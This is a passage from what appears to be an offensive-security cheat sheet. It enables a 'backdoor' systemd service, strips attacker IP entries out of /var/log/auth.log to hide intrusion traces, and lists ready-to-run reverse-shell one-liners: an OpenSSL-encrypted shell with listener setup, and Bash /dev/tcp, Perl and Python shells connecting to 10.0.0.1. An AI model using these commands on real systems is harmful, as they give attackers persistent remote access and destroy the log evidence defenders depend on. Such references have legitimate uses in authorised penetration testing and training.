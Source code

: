 Enable the backdoor service to run on restart:

```
sudo systemctl enable notmalicious
```

## Old-Fashioned Log Cleaning:

Grep to remove sensitive attacker information then copy into original logs

```
# cat /var/log/auth.log | grep -v "<Attacker IP>" > /tmp/cleanup.log
# mv /tmp/cleanup.log /var/log/auth.log
```

# Reverse Shells:

## Encrypted Reverse Shells with OpenSSL:

Generate SSL certificate:

```
openssl req -x509 -quiet -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

Start an SSL listener on your attacking machine using ```openssl```:

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

Run the payload on target machine using ```openssl```:

```
mkfifo /tmp/s;/bin/sh -i</tmp/s 2>&1|openssl s_client -quiet -connect 127.0.0.1:4444>/tmp/s 2>/dev/null;rm /tmp/s
```

## Bash:

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

## PERL:

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Python:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
